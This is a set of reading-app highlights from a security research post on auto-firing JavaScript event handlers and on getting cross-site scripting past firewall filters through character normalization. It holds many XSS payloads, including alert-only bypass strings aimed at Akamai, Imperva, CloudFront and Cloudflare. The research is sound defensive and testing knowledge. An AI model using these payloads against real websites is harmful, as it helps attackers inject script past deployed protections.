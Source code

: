 ```yaml
---
author: "0x999.net"
aliases: "Exploring Javascript Events & Bypassing WAFs via Character Normalization"
tags: RW_inbox, readwise/articles
url: https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization
date: 2025-01-23
---
```

# Exploring Javascript Events & Bypassing WAFs via Character Normalization

![rw-book-cover](https://res.cloudinary.com/drhrvcs22/image/upload/w_500,h_300/blog_banner_2_glvvci.png)

## Highlights


In the first section of this post, I provide a short introduction to browser events, I then explore which Javascript event handlers can be used to execute functions without user interaction, using a limited character set, I also discuss various methods through which this can be leveraged to achieve arbitrary Javascript execution, Again using a limited character set.
> [View Highlight](https://read.readwise.io/read/01jj92r4vmd2farc0ebxm81eak)



Events can be seen as notifications that a developer can use to react to certain changes that may happen in the browser, typically triggered by user interaction or changes in the browser enviornment.
> [View Highlight](https://read.readwise.io/read/01jj92ryv2p7axccnmrae03kz5)



They serve as a crucial mechanism that developers rely on to create dynamic and interactive web applications.
> [View Highlight](https://read.readwise.io/read/01jj92sbqc8dcpdw2k2na0ffq0)



Events can be categorized into the following:
 • User-initiated events: Events that require explicit actions by the user, like mouse movements, clicks, or key presses.
 • Browser-generated events: Events triggered by the browser environment itself, such as page loading, window resizing, network status changes, and events related to the browser’s focus or form elements.
 • API-specific events: Events triggered by specific Web APIs, such as media playback changes, battery status updates, or messages passed between different browsing contexts or windows.
> [View Highlight](https://read.readwise.io/read/01jj92t82zqpxt55k0ygqrxyy2)



In Javascript you can use the addEventListener() function to attach an event to an element or window, Here's an example of the syntax:
 addEventListener("event", () => {
 // Do something
 });
 Alternatively you can also use event handlers which can be set via direct assignment `**onevent**=**function**`
> [View Highlight](https://read.readwise.io/read/01jj92vaha4t34sjzxss4jzw7p)



one common xss payload I often see people use which utilizes javascript event handlers is `onerror=alert;throw 1`
> [View Highlight](https://read.readwise.io/read/01jj92xa4r5t1ct5bekg17qtwt)



Chromium only
 As mentioned above the `ondevicemotion / ondeviceorientation / ondeviceorientationabsolute` trigger automatically therefore we can just assign it a function.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=ondevicemotion=alert%3E&context=html) `ondevicemotion=alert`
 The `pagereveal / pageswap` events can be triggered by setting the location to the current location which will result in a redirect loop and eventually trigger the event.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=onpageswap=alert;location=location%3E&context=html) `onpageswap=alert;location=location`
 The `contextvisibilityautostatechange` event can be triggered by setting the value of the `contentVisibility` CSS property to auto.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/style=content-visibility:auto%20onerror=window.oncontentvisibilityautostatechange=alert%3E&context=html) `<img/src/style=content-visibility:auto onerror=window.oncontentvisibilityautostatechange=alert>`
 The `selectionchange` event can be triggered by using a `textarea/input` element with an autofocus attribute.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cinput/autofocus/onfocus=%22window.onselectionchange=alert%22%3E&context=html) `<input/autofocus/onfocus="window.onselectionchange=alert">`
 Chromium / Firefox / Others
 The `message` event needs a direct reference to the target window for cross origin communication therefore in order to trigger it we'd need to iframe the target or use top level navigation.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%27;let%20xx%20=%20window.open%28%22//portswigger-labs.net/xss/xss.php?x=%27;window.onmessage=alert//%26context=js_string_single%22,%20%22_blank%22%29;setInterval%28z=%3E%7Bxx.postMessage%28%22x%22,%22*%22%29%7D,500%29//&context=js_string_single) `let x = window.open("//portswigger-labs.net/xss/xss.php?x=';onmessage=alert//&context=js_string_single", "_blank");setInterval(z =>{x.postMessage("x", "*")}, 500)`
 The `hashchange` event can be triggered by assigning a new value to `location.hash`.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=onhashchange=alert;location.hash=location%3E&context=html) `onhashchange=alert;location.hash=location`
 The `scroll / scrollend` events can be triggered by making the page scrollable via document.body.style.height and changing the value of `document.documentElement.scrollTop`.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=window.onscroll=alert;document.body.style.height='999px';document.documentElement.scrollTop=1%3E&context=html) `window.onscroll=alert;document.body.style.height='999px';document.documentElement.scrollTop=1`
 The `select` event can be triggered by using a `textarea/input` element with a value attribute and increasing the value of `element.selectionStart`.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cinput%20value=x%20autofocus%20onfocus=%22window.onselect=alert;this.selectionStart=1%22%3E&context=html) `<input value=x autofocus onfocus="window.onselect=alert;this.selectionStart=1">`
 The `transitionstart / transitionend / transitionrun` events can be triggered by setting the transition CSS property and changing the opacity to start the transition.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/style=transition:0.1s%20onerror=window.ontransitionend=alert;this.style.opacity=0%3E&context=html) `<img/src/style=transition:0.1s onerror=window.ontransitionend=alert;this.style.opacity=0>`
 The `load / pageshow` and possibly others are triggered when the document initially loads, in a DOM XSS scenario we can use an iframe with a srcdoc attribute.
 [e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Ciframe/srcdoc=%22%3Cimg/src/onerror=onpageshow=alert%3E%22%3E&context=html) `<iframe/srcdoc="<img/src/onerror=onpageshow=alert>">`
 I'm fairly certain there are more but these will do, for now :)
> [View Highlight](https://read.readwise.io/read/01jj932kmakhvqeyjc89ys2yhs)



Earlier this year [@garethheyes](https://x.com/garethheyes) released a new version of his tool [Shazzer](https://shazzer.co.uk) which allows you to easily fuzz HTML/Javascript behavior across different browsers.
> [View Highlight](https://read.readwise.io/read/01jj92yc14j33zmcms3z7sak40)
> #tools 


I started looking through [MDN docs](https://developer.mozilla.org/en-US/docs/Web/API/Element#Events) to see which other event handlers are viable(can be triggered with a limited charset and require no user interaction), to my surprise there were a lot of them.
> [View Highlight](https://read.readwise.io/read/01jj930v0zjz334by8jyng2f5t)



When an event handler gets triggered and calls it's assigned function depending on the function that it's assigned to it will first call the `toString()` function on the event object before passing the result as an argument to the assigned function.
 In order to achieve arbitrary javascript execution we need to overwrite the `toString` function in one way or another so that when our selected function(e.g eval/setTimeout/setInterval) gets called we can control the string that is passed as an argument.
> [View Highlight](https://read.readwise.io/read/01jj9349rm8y4xk2x7twfnd2qk)



[e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=window.onerror=eval;ReferenceError.prototype.name=%27;alert%5Cx28999%5Cx29;var%5Cx20Uncaught//%27;z%3E) `window.onerror=eval;ReferenceError.prototype.name=';alert\x28999\x29;var Uncaught//';z`
> [View Highlight](https://read.readwise.io/read/01jj935a54ny311skn7zys0gbm)



[e.g:](https://portswigger-labs.net/xss/xss.php?x=%3Cimg/src/onerror=%22window.onscroll=setTimeout;document.body.style.height='999px';document.documentElement.scrollTop=1;Object.prototype.toString=x=%3E'alert%5Cx28999%5Cx29'%22%3E) `window.onscroll=setTimeout;document.body.style.height='999px';document.documentElement.scrollTop=1;Object.prototype.toString=x=>'alert\x28999\x29' //alerts 999`
> [View Highlight](https://read.readwise.io/read/01jj935ndepssxvm1jj87scsnc)



`akamai.com/x?=<input/autofocus/onfocu%25252525252525252573=x` => 403 Access Denied
 `akamai.com/x?=<input/autofocus/onfocu%2525252525252525252573=x` => 200 OK
 Seems like Akamai are URL decoding user input 10 times before processing it.
> [View Highlight](https://read.readwise.io/read/01jj937e9k1fjwv4t0kahkqftw)



what other encodings might be getting normalized by the WAF before being searched for patterns, turns out there are a couple:
 named entities, e.g: `imperva.com/?x=<input/%26gt;/autofocus/onfocus=x()>`
 (not sure why it doesn't work with the &quot; entity anymore)
 hex/numeric entities, e.g: `imperva.com/?x=<input/%26%23x3e/autofocus/onfocus=x()>`
 utf-8 hex, e.g: `imperva.com/?x=<input/\x3e/autofocus/onfocus=x()>`
 utf-16, e.g: `imperva.com/?x=<input/\u003e/autofocus/onfocus=x()>`
 utf-16 w/ curly braces, e.g: `imperva.com/?x=<input/\u{3e}/autofocus/onfocus=x()>`
 utf-16 w/ % instead of \, e.g: `akamai.com/x?=<input/%u003e/autofocus/onfocus=x()>`
> [View Highlight](https://read.readwise.io/read/01jj93aa32642xqwbf6rfj3an3)



And finally here are some WAF bypasses based on the techniques discussed above:
 Akamai:
 `akamai.com/?x=<x/%u003e/tabindex=1 autofocus/onfocus=x=self;x['ale'%2b'rt'](999)>`
 Imperva:
 `imperva.com/?x=<x/\x3e/tabindex=1 style=transition:0.1s autofocus/onfocus="a=document;b=a.defaultView;b.ontransitionend=b['aler'%2b't'];style.opacity=0;Object.prototype.toString=x=>999">`
 AWS/Cloudfront:
 `docs.aws.amazon.com/?x=<x/%26%23x3e;/tabindex=1 autofocus/onfocus=alert(999)>`
 Cloudflare:
 `cloudflare.com/?x=<x tabindex=1 autofocus/onfocus="style.transition='0.1s';style.opacity=0;self.ontransitionend=alert;Object.prototype.toString=x=>999">`
> [View Highlight](https://read.readwise.io/read/01jj93b2bd0b58ewte8479ezrv)



you can click on the ✅/❌ to view each associated test case
> [View Highlight](https://read.readwise.io/read/01jj93ak9mp745ed5w66t9fv3f)


